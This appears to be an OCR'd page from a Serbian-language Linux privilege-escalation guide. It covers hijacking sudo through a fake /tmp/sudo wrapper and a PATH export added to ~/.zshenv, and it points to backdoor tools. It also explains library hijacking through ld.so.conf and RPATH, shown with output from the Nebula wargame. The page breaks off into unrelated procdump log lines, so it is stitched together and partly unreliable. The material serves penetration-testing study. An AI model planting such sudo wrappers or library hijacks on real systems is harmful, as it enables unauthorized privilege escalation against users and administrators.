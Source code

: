 Imajte na umu da ako korisnik koristi drugu ljusku (ne bash), moraćete izmeniti druge fajlove da biste dodali novi put. Na primer, [sudo-piggyback](https://github.com/APTy/sudo-piggyback) menja `~/.bashrc`, `~/.zshrc`, `~/.bash_profile`. Možete pronaći još jedan primer u [bashdoor.py](https://github.com/n00py/pOSt-eX/blob/master/empire\_modules/bashdoor.py)

Ili pokretanje nečega kao što je:

```bash
cat >/tmp/sudo <<EOF
#!/bin/bash
/usr/bin/sudo whoami > /tmp/privesc
/usr/bin/sudo "\$@"
EOF
chmod +x /tmp/sudo
echo ‘export PATH=/tmp:$PATH’ >> $HOME/.zshenv # or ".bashrc" or any other

# From the victim
zsh
echo $PATH
sudo ls
```

## Deljena biblioteka

### ld.so

Datoteka `/etc/ld.so.conf` pokazuje **odakle se učitavaju konfiguracione datoteke**. Obično, ova datoteka sadrži sledeći put: `include /etc/ld.so.conf.d/*.conf`

To znači da će se čitati konfiguracione datoteke iz `/etc/ld.so.conf.d/*.conf`. Ove konfiguracione datoteke **pokazuju na druge direktorijume** u kojima će se **tražiti biblioteke**. Na primer, sadržaj `/etc/ld.so.conf.d/libc.conf` je `/usr/local/lib`. **Ovo znači da će sistem tražiti biblioteke unutar `/usr/local/lib`**.

Ako iz nekog razloga **korisnik ima dozvole za pisanje** na bilo kojem od navedenih puteva: `/etc/ld.so.conf`, `/etc/ld.so.conf.d/`, bilo koja datoteka unutar `/etc/ld.so.conf.d/` ili bilo koji direktorijum unutar konfiguracione datoteke unutar `/etc/ld.so.conf.d/*.conf`, može doći do eskalacije privilegija.\
Pogledajte **kako iskoristiti ovu konfiguraciju** na sledećoj stranici:

{% content-ref url="ld.so.conf-example.md" %}
[ld.so.conf-example.md](ld.so.conf-example.md)
{% endcontent-ref %}

### RPATH

```
level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"
0x00000001 (NEEDED)                     Shared library: [libc.so.6]
0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]

level15@nebula:/home/flag15$ ldd ./flag15
linux-gate.so.1 =>  (0x0068c000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)
/lib/ld-linux.so.2 (0x005bb000)
```


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714